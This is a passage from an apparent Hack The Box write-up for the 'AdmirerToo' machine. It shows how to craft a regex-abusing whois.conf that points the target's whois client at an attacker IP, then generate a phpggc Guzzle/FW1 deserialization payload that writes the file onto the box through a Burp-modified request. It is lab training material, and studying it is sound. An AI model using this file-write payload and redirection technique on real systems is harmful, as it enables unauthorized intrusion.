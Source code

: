 ```text
jennifer@admirertoo:~$ cat/usr/local/etc/whois.conf
[{"Expires":1,"Discard":false,"Value":"[10.10.14.169]\n"}]
```

Which isn't a valid and you get an error when trying to use whois on the box. Instead we use regex like this:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "}]|. [10.10.14.169]" > whois.conf
```

Then it will look like this when it's dropped on the box:

```text
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.169]\n"}]j
```

The vertical bar is an OR in Regex, and the dot is match characters inside the square brackets. What this means is although the conf file contains invalid data when whois parses it the |. causes it to only use the characters inside the brackets. And that is a valid IP address of our waiting Kali IP.

Let's do it. First create our whois.conf file:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "}]|. [10.10.14.169]" > whois.conf
```

Use phpgcc to serialise it and cause it to drop in the /usr/local/etc folder on the box:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /root/htb/admirertoo/whois.conf
a%3A2%3A%7Bi%3A7<SNIP>Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A20%3A%22%7D%5D%7C.+%5B10.10.14.169%5D
%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3
A7%3Bi%3A7%3B%7D
```

Back to Burp, capture the activities data grid request like before, replace the serialized content at the start with ours:

![admirertoo-whois-file-drop](/assets/images/2022-03-04-17-44-01.png)
